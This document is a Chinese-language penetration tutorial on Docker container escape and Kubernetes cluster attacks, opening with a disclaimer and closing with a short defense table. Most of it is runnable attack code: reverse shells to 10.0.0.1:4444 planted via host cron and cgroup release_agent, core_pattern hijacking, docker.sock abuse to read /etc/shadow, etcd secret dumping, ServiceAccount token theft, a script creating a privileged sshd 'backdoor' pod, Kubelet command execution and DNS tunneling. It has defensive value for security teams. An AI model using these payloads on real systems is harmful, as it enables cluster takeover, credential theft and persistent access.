


## 前言

云原生时代，Docker 提供轻量级隔离，Kubernetes 负责编排调度——两者共同引入了一条全新的攻击面。本文梳理容器逃逸与 K8s 集群渗透的核心手法，附可复现的代码示例，帮助安全从业者建立云原生攻防视角。

> **免责声明**：本文所有技术内容仅供安全研究与授权测试使用。未经授权对他人系统实施攻击属于违法行为，读者须自行承担由此产生的一切法律后果。

---

## 攻击全景图



---

## 一、Docker 容器逃逸

### 1.1 特权容器

`--privileged` 赋予容器几乎所有 Capability，且关闭 AppArmor/Seccomp。检测方法：

```bash
cat /proc/1/status | grep CapEff
# 若输出 CapEff: 0000003fffffffff 则极可能是特权容器
fdisk -l   # 可见宿主机磁盘
```

**逃逸——挂载宿主机根分区并写 cron**：

```bash
mkdir /tmp/host && mount /dev/sda1 /tmp/host
echo "*/1 * * * * root bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'" \
  > /tmp/host/etc/cron.d/escape
```

### 1.2 docker.sock 挂载利用

`/var/run/docker.sock` 是 Docker Daemon 的 Unix Socket，能与之通信即等同 Root。

```bash
# 在挂载了 docker.sock 的容器内探测
docker -H unix:///var/run/docker.sock ps

# 再启一个特权容器并挂载宿主机根目录
docker -H unix:///var/run/docker.sock run -it --privileged \
  -v /:/host ubuntu chroot /host bash
```

**Python 调用 Docker API**：

```python
import requests, json, urllib3; urllib3.disable_warnings()

sock_url = 'http+unix://%2Fvar%2Frun%2Fdocker.sock'
cid = open('/proc/self/cgroup').read().split('/')[-1].strip()
data = {"AttachStdin": True, "AttachStdout": True, "AttachStderr": True,
        "Cmd": ["bash", "-c", "cat /etc/shadow"], "Privileged": False}
requests.post(f'{sock_url}/containers/{cid}/exec',
    headers={'Content-Type': 'application/json'}, data=json.dumps(data))
```

### 1.3 Cgroup Release Agent

当容器持有 `CAP_SYS_ADMIN` 且 cgroup 可写时，通过 `release_agent` 在宿主机执行任意命令。

```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup_mem /tmp/cgrp
mkdir /tmp/cgrp/x

echo '#!/bin/bash' > /release_agent.sh
echo 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1' >> /release_agent.sh
chmod +x /release_agent.sh

# 获取宿主机 overlay 路径
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -1)
echo "$host_path/release_agent.sh" > /tmp/cgrp/release_agent

# 触发
echo 0 > /tmp/cgrp/x/cgroup.procs
rmdir /tmp/cgrp/x
```

原理：cgroup 中进程全部退出时，内核以 Root 执行 `release_agent` 脚本，而该脚本路径指向了宿主机文件系统中的文件。

### 1.4 Procfs 挂载

宿主机 `/proc` 挂载进容器意味着信息泄露和可能的提权。

```bash
ls -la /proc/1/root               # 确认宿主机 proc 视角
ps aux                             # 可枚举所有进程

# 若 /proc/sys/kernel/core_pattern 可写
echo '|/tmp/payload.sh' > /host/proc/sys/kernel/core_pattern
# 制造 core dump 触发 payload.sh 以 Root 执行
```

---

## 二、Kubernetes 集群渗透

### 2.1 API Server 未授权访问

API Server（6443/旧版8080）是集群控制中枢，未授权即集群沦陷。

```bash
# 探测（旧版 8080 默认无认证）
curl http://<IP>:8080/api/v1/namespaces
curl -k https://<IP>:6443/api/v1/pods

# 使用 kubectl 接入并创建特权 Pod
kubectl --server=https://<IP>:6443 --insecure-skip-tls-verify get nodes
cat <<EOF | kubectl --server=https://<IP>:6443 apply -f -
apiVersion: v1
kind: Pod
metadata: {name: evil, namespace: default}
spec:
  containers:
    image: ubuntu:22.04
    command: ["/bin/bash", "-c", "sleep 99999"]
    securityContext: {privileged: true}
    volumeMounts:
    - {name: host, mountPath: /host}
  volumes:
EOF
```

### 2.2 etcd 暴露

etcd 存储集群所有 Secrets 和 RBAC 配置（端口 2379/2380）。

```bash
export ETCDCTL_API=3
etcdctl --endpoints=http://<IP>:2379 get / --prefix --keys-only

# 提取所有 Secrets
etcdctl --endpoints=http://<IP>:2379 get /registry/secrets/ --prefix -w json | \
  jq -r '.kvs[].value' | base64 -d
```

### 2.3 ServiceAccount Token 利用

K8s 默认将 SA Token 挂载到 `/var/run/secrets/kubernetes.io/serviceaccount/`。

```bash
# 读取凭证
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER=https://${KUBERNETES_SERVICE_HOST}

# 探测当前权限
curl -s --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt \
  -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/default/pods | jq .

# 查阅 Secrets（取决于 RBAC）
curl -s --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt \
  -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/kube-system/secrets | jq .
```

**利用高权限 Token 创建后门 Pod**：

```python
import os, requests, urllib3; urllib3.disable_warnings()
with open('/var/run/secrets/kubernetes.io/serviceaccount/token') as f:
    token = f.read()
ca = '/var/run/secrets/kubernetes.io/serviceaccount/ca.crt'
api = f"https://{os.environ['KUBERNETES_SERVICE_HOST']}"
evil = {
    "apiVersion": "v1", "kind": "Pod",
    "metadata": {"name": "backdoor", "namespace": "default"},
    "spec": {
        "containers": [{
            "name": "bd", "image": "alpine",
            "command": ["/bin/sh","-c","apk add openssh; ssh-keygen -A; /usr/sbin/sshd -D"],
            "securityContext": {"privileged": True},
            "volumeMounts": [{"name": "root", "mountPath": "/host"}]
        }],
        "volumes": [{"name": "root", "hostPath": {"path": "/", "type": "Directory"}}]
    }
}
r = requests.post(f"{api}/api/v1/namespaces/default/pods",
    headers={"Authorization": f"Bearer {token}"}, json=evil, verify=ca)
print(r.status_code, r.text)
```

### 2.4 RBAC 提权

低权限用户持有高危 RBAC 规则时可直接提权。常见危险资源/动词组合：

| Verb / Resource | 提权路径 |
|---|---|
| `pods` + `create` | 创建特权 Pod 逃逸 |
| `pods/exec` | 在任意 Pod 执行命令 |
| `secrets` + `get/list` | 窃取所有凭据 |
| `roles/clusterroles` + `bind` | 为自己绑定高权限角色 |
| `nodes/proxy` | 通过 API Server 代理访问 Kubelet |

**危险 Role 示例**：

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: bad-role
rules:
- apiGroups: [""]
  resources: ["pods", "pods/exec", "secrets"]
  verbs: ["create", "get", "list"]   # 组合即可完成逃逸链
```

**绑定高权限 SA 到 Pod**：

```yaml
spec:
  serviceAccountName: cluster-admin-sa    # 复用已有高权限SA
  automountServiceAccountToken: true
```

### 2.5 Kubelet API

Kubelet 默认监听 10250 端口，老版本可能未授权。

```bash
# 枚举 Pod 信息
curl -k https://<NODE_IP>:10250/pods | jq .

# 在容器内执行命令（需已知 namespace、pod、container 名称）
curl -k -X POST https://<NODE_IP>:10250/run/<NAMESPACE>/<POD>/<CONTAINER> \
  -d "cmd=whoami"

# 获取 Kubelet 配置（可能泄露证书）
curl -k https://<NODE_IP>:10250/configz | jq .
```

### 2.6 Pod 逃逸——CRI Socket

高权限 Pod 可通过挂载的 CRI Socket 在宿主机创建容器：

```bash
# 探测 containerd socket
curl --unix-socket /run/containerd/containerd.sock http://localhost/version

# 使用 crictl 创建宿主机命名空间容器
crictl --runtime-endpoint unix:///run/containerd/containerd.sock \
  run --with-pull docker.io/library/alpine:latest escape \
  --mount type=bind,src=/,dst=/host,options=rbind:rw
```

### 2.7 Network Policy 绕过

**DNS 隧道**：即使出站策略严格，DNS 常被放行。

```bash
# 控制端
iodined -f -c -P 'pass' 10.1.1.1 tunnel.example.com

# 受限 Pod 内
iodine -f -P 'pass' tunnel.example.com
```

**利用 kubernetes.default.svc**：

```python
# 通过 Service FQDN 访问 API Server，可能绕过出站 NetworkPolicy（SSRF）
r = requests.get('https://kubernetes.default.svc/api/v1/secrets',
    headers={'Authorization': f'Bearer {token}'},
    verify='/var/run/secrets/kubernetes.io/serviceaccount/ca.crt')
```

**Sidecar 共享网络命名空间**：同 Pod 内控制 Sidecar 即可绕过 NetworkPolicy 隔离。

---

## 三、完整攻击链总结



---

## 四、速查防御表

| 攻击手法 | 防御措施 |
|---|---|
| 特权容器 | Pod Security Standards `restricted`；禁止 privileged |
| docker.sock 挂载 | Admission Webhook 拒绝敏感挂载路径 |
| cgroup release_agent | 禁用 SYS_ADMIN；启用 AppArmor/Seccomp |
| procfs 挂载 | readOnly 挂载；最小化 Capability |
| API Server 未授权 | 强制 RBAC + TLS；`--insecure-port=0` |
| etcd 暴露 | 防火墙限制 2379/2380；mTLS |
| SA Token 滥用 | `automountServiceAccountToken: false` |
| RBAC 提权 | 最小权限；定期 `kubectl auth can-i` 审计 |
| Kubelet API | Webhook 认证授权；仅绑定 localhost |
| CRI Socket | 避免将 CRI Socket 挂载进 Pod |
| Network Policy 绕过 | 默认拒绝出站；限制 DNS 至可信服务器 |

---

## 结语

云原生安全不是某一层的问题——它横跨镜像供应链、运行时隔离、集群访问控制和网络策略。攻击者从任意一个微小配置失误入手，就像在网中寻找最松的一根线，抽出来就能逐步解开整张网。理解了本文所列的攻击面，也就能更有方向地加固自己的集群。

*本文仅作技术交流，任何利用本文内容进行的非法操作与作者无关。请遵守法律法规，仅在获得明确授权后进行安全测试。*
